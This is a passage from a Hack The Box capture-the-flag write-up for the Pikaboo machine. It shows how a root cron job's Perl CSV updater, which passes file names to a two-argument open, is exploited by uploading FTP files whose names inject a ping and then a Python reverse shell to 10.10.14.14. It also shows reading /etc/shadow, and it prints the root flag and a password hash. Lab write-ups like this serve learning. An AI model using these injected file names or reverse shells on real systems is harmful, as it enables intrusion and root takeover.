drwxr-xr-x 2 root root 4096 Jul  6 18:57 __pycache__
```

Let's observe ```csvupdate_cron``` and ```csvupdate``` file:
```perl
$ cat csvupdate_cron
cat csvupdate_cron
#!/bin/bash

for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done

```

```csvupdate_cron``` script iterate for each directory on ```ftp``` and send it as an argument to ```csvupdate``` script.

Where ```csvupdate``` script is:
```perl
$ cat csvupdate
cat csvupdate
#!/usr/bin/perl

##################################################################
# Script for upgrading PokeAPI CSV files with FTP-uploaded data. #
#                                                                #
# Usage:                                                         #
# ./csvupdate <type> <file(s)>                                   #
#                                                                #
# Arguments:                                                     #
# - type: PokeAPI CSV file type                                  #
#         (must have the correct number of fields)               #
# - file(s): list of files containing CSV data                   #
##################################################################

use strict;
use warnings;
use Text::CSV;

my $csv_dir = "/opt/pokeapi/data/v2/csv";

my %csv_fields = (
  'abilities' => 4,
  'ability_changelog' => 3,
  'ability_changelog_prose' => 3,
  'ability_flavor_text' => 4,
  'ability_names' => 3,
  'ability_prose' => 4,
  'berries' => 10,
  'berry_firmness' => 2,
  'berry_firmness_names' => 3,
  'berry_flavors' => 3,
  'characteristics' => 3,
  'characteristic_text' => 3,
  'conquest_episode_names' => 3,
  'conquest_episodes' => 2,
  'conquest_episode_warriors' => 2,
  'conquest_kingdom_names' => 3,
  'conquest_kingdoms' => 3,
  'conquest_max_links' => 3,
  'conquest_move_data' => 7,
  'conquest_move_displacement_prose' => 5,
  'conquest_move_displacements' => 3,
  'conquest_move_effect_prose' => 4,
  'conquest_move_effects' => 1,
  'conquest_move_range_prose' => 4,
  'conquest_move_ranges' => 3,
  'conquest_pokemon_abilities' => 3,
  'conquest_pokemon_evolution' => 8,
  'conquest_pokemon_moves' => 2,
  'conquest_pokemon_stats' => 3,
  'conquest_stat_names' => 3,
  'conquest_stats' => 3,
  'conquest_transformation_pokemon' => 2,
  'conquest_transformation_warriors' => 2,
  'conquest_warrior_archetypes' => 2,
  'conquest_warrior_names' => 3,
  'conquest_warrior_ranks' => 4,
  'conquest_warrior_rank_stat_map' => 3,
  'conquest_warriors' => 4,
  'conquest_warrior_skill_names' => 3,
  'conquest_warrior_skills' => 2,
  'conquest_warrior_specialties' => 3,
  'conquest_warrior_stat_names' => 3,
  'conquest_warrior_stats' => 2,
  'conquest_warrior_transformation' => 10,
  'contest_combos' => 2,
  'contest_effect_prose' => 4,
  'contest_effects' => 3,
  'contest_type_names' => 5,
  'contest_types' => 2,
  'egg_group_prose' => 3,
  'egg_groups' => 2,
  'encounter_condition_prose' => 3,
  'encounter_conditions' => 2,
  'encounter_condition_value_map' => 2,
  'encounter_condition_value_prose' => 3,
  'encounter_condition_values' => 4,
  'encounter_method_prose' => 3,
  'encounter_methods' => 3,
  'encounters' => 7,
  'encounter_slots' => 5,
  'evolution_chains' => 2,
  'evolution_trigger_prose' => 3,
  'evolution_triggers' => 2,
  'experience' => 3,
  'genders' => 2,
  'generation_names' => 3,
  'generations' => 3,
  'growth_rate_prose' => 3,
  'growth_rates' => 3,
  'item_categories' => 3,
  'item_category_prose' => 3,
  'item_flag_map' => 2,
  'item_flag_prose' => 4,
  'item_flags' => 2,
  'item_flavor_summaries' => 3,
  'item_flavor_text' => 4,
  'item_fling_effect_prose' => 3,
  'item_fling_effects' => 2,
  'item_game_indices' => 3,
  'item_names' => 3,
  'item_pocket_names' => 3,
  'item_pockets' => 2,
  'item_prose' => 4,
  'items' => 6,
  'language_names' => 3,
  'languages' => 6,
  'location_area_encounter_rates' => 4,
  'location_area_prose' => 3,
  'location_areas' => 4,
  'location_game_indices' => 3,
  'location_names' => 4,
  'locations' => 3,
  'machines' => 4,
  'move_battle_style_prose' => 3,
  'move_battle_styles' => 2,
  'move_changelog' => 10,
  'move_damage_classes' => 2,
  'move_damage_class_prose' => 4,
  'move_effect_changelog' => 3,
  'move_effect_changelog_prose' => 3,
  'move_effect_prose' => 4,
  'move_effects' => 1,
  'move_flag_map' => 2,
  'move_flag_prose' => 4,
  'move_flags' => 2,
  'move_flavor_summaries' => 3,
  'move_flavor_text' => 4,
  'move_meta_ailment_names' => 3,
  'move_meta_ailments' => 2,
  'move_meta_categories' => 2,
  'move_meta_category_prose' => 3,
  'move_meta' => 13,
  'move_meta_stat_changes' => 3,
  'move_names' => 3,
  'moves' => 15,
  'move_target_prose' => 4,
  'move_targets' => 2,
  'nature_battle_style_preferences' => 4,
  'nature_names' => 3,
  'nature_pokeathlon_stats' => 3,
  'natures' => 7,
  'pal_park_area_names' => 3,
  'pal_park_areas' => 2,
  'pal_park' => 4,
  'pokeathlon_stat_names' => 3,
  'pokeathlon_stats' => 2,
  'pokedexes' => 4,
  'pokedex_prose' => 4,
  'pokedex_version_groups' => 2,
  'pokemon_abilities' => 4,
  'pokemon_color_names' => 3,
  'pokemon_colors' => 2,
  'pokemon' => 8,
  'pokemon_dex_numbers' => 3,
  'pokemon_egg_groups' => 2,
  'pokemon_evolution' => 20,
  'pokemon_form_generations' => 3,
  'pokemon_form_names' => 4,
  'pokemon_form_pokeathlon_stats' => 5,
  'pokemon_forms' => 10,
  'pokemon_form_types' => 3,
  'pokemon_game_indices' => 3,
  'pokemon_habitat_names' => 3,
  'pokemon_habitats' => 2,
  'pokemon_items' => 4,
  'pokemon_move_method_prose' => 4,
  'pokemon_move_methods' => 2,
  'pokemon_moves' => 6,
  'pokemon_shape_prose' => 5,
  'pokemon_shapes' => 2,
  'pokemon_species' => 20,
  'pokemon_species_flavor_summaries' => 3,
  'pokemon_species_flavor_text' => 4,
  'pokemon_species_names' => 4,
  'pokemon_species_prose' => 3,
  'pokemon_stats' => 4,
  'pokemon_types' => 3,
  'pokemon_types_past' => 4,
  'region_names' => 3,
  'regions' => 2,
  'stat_names' => 3,
  'stats' => 5,
  'super_contest_combos' => 2,
  'super_contest_effect_prose' => 3,
  'super_contest_effects' => 2,
  'type_efficacy' => 3,
  'type_game_indices' => 3,
  'type_names' => 3,
  'types' => 4,
  'version_group_pokemon_move_methods' => 2,
  'version_group_regions' => 2,
  'version_groups' => 4,
  'version_names' => 3,
  'versions' => 3
);


if($#ARGV < 1)
{
  die "Usage: $0 <type> <file(s)>\n";
}

my $type = $ARGV[0];
if(!exists $csv_fields{$type})
{
  die "Unrecognised CSV data type: $type.\n";
}

my $csv = Text::CSV->new({ sep_char => ',' });

my $fname = "${csv_dir}/${type}.csv";
open(my $fh, ">>", $fname) or die "Unable to open CSV target file.\n";

shift;
for(<>)
{
  chomp;
  if($csv->parse($_))
  {
    my @fields = $csv->fields();
    if(@fields != $csv_fields{$type})
    {
      warn "Incorrect number of fields: '$_'\n";
      next;
    }
    print $fh "$_\n";
  }
}

close($fh);
```

On ```perl```, There is a vulnerability related to ```open``` directory, We can use [open() for Command Execution](https://www.shlomifish.org/lecture/Perl/Newbies/lecture4/processes/opens.html).

To do that, We need to create a file that starts with ```|``` and then our command.

Let's try it with a simple run ```ping``` command, We need to create a new file on one of the directories on ```ftp```, The file name should be ```"| ping -c1 10.10.14.14;.csv"```:
```console
ftp> put
(local-file) myfile
(remote-file) "| ping -c1 10.10.14.14;.csv"
local: myfile remote: | ping -c1 10.10.14.14;.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> 
```

Listen to ```icmp``` requests using ```tcpdump``` and after 1 min~ we can see the following requests:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ sudo tcpdump -i tun0 icmp
[sudo] password for user: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
02:09:15.795498 IP pikaboo.htb > 10.10.16.9: ICMP echo request, id 17850, seq 1, length 64
02:09:15.795565 IP 10.10.16.9 > pikaboo.htb: ICMP echo reply, id 17850, seq 1, length 64

```

So we have RCE, Let's create our reverse shell as a file name to get a shell, The shell will be:
```python
"|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.14\",5555));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
```

Let's put a file again:

```console
ftp> put
(local-file) myfile
(remote-file) "|python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.14\",5555));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv"
local: myfile remote: |python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("\"10.10.14.14\",5555));[os.dup2(s.fileno(),f)for\ f\ in(0,1,2)];pty.spawn(""\"sh\")';.csv
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
ftp> 
```

And after 1 min~ we get a shell:
```console
┌─[evyatar@parrot]─[/hackthebox/Pikaboo]
└──╼ $ nc -lvp 5555
listening on [any] 5555 ...
connect to [10.10.16.9] from pikaboo.htb [10.10.10.249] 55468
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
995419b7e6e4be905f5c200ea0810363
```

And we get the root flag ```995419b7e6e4be905f5c200ea0810363```.


For PDF password:
```console
# cat /etc/shadow | grep root | cut -d':' -f2
cat /etc/shadow | grep root | cut -d':' -f2
$6$rmBpCrNSohpbrXpW$6XizSEcAl0ELQH28F21.V0cvZgWCNkatRbXCv5WNlIW2mkhECPM7wm1j.BRD.t7.Z5CQPvu19EGORXbpOnb540
```
